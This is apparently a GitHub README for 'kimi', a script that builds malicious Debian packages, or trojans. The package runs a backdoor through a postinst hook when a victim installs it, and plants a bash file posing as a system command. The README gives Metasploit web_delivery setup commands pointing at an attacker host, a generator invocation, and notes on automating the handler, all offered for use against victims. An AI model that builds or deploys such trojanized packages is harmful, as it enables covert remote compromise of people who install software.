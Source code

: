 # kimi - Malicious Debian Package generator
Script to generate malicious debian packages (debain trojans).

# About & Plus points & Usage & Tested On :::
    Kimi is name inspired from "Kimimaro" one of my favriote charater from anime called "Naruto".

    Kimi is a script which generates Malicious debian package for metasploit
    which consists of bash file. the bash file is deployed into "/usr/local/bin/" directory.
    
    Backdoor gets executed just when victim tries to install deb package due to postinst file
    
    Bash file injects and also acts like some system command which when executed by victim 
    and attacker hits with session.
    
    Plus Points :
    -- Fully indiependent. Means user no need to install any debian package creator
    -- Can be integrated with any payload generator easily due to engagements of arguemt (lame :P i know) 
    
    Kimi basically depends upon web_delivery module and every thing is automated. 
    all the attacker needs is to do following settings :
    
    Setting up Web_Delivery in msf :
    
    msf > use exploit/multi/script/web_delivery
    msf exploit(web_delivery) > set srvhost 192.168.0.102
    srvhost => 192.168.0.102
    msf exploit(web_delivery) > set uripath /SecPatch
    uripath => /SecPatch
    msf exploit(web_delivery) > set Lhost 192.168.0.102
    Lhost => 192.168.0.102
    msf exploit(web_delivery) > show options
    msf exploit(web_delivery) > exploit
    
    Generating Malicious payload :
    
    dreamer@mindless ~/Desktop/projects/kimi $ sudo python kimi.py -n nano -l 127.0.0.1 -V 1.0 -a i386
    
    NOTE :: This project was made to be integrated with Venom Shellcode Generator 1.0.13.
    It can be used standalone also all user needs is to change uripath in msf variables
    -------------------------------------------------------------------------------------
    
    Tested on :
                Linux Mint 17.2 Cinnamon (Ubuntu 14.04) 
                ParrotOS (Debian Jessie)
                Kali Rolling 2.0
# Updates :::
    -- Added "postinst" file creation function to make embeded malicious file execution automated
    -- Added RC file generation function to fully automate with handler opening, means no need to 
        set handler manually
    -- Patched some common bugs [special thanks to r00t 3xp10it :)]

# ScreenShots :::

![Main Banner](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/kimi.PNG)
![Kimi In Action](https://raw.githubusercontent.com/ChaitanyaHaritash/kimi/master/screenshots/exploiting1.1.png)

# Misc :::
       Blog Post     : http://hackinguyz.blogspot.in/2017/03/kimi-malicious-debian-package-creator.html
       YouTube Video : https://youtu.be/Dsn6BRHy9_w  

# Shouts to :::
  Suspicious Shell Activity [Red Team]
# Doubts? Insults?
   Twitter : @bofheaded 
    | Wrote while listening jams of Vidya VOX ;) 
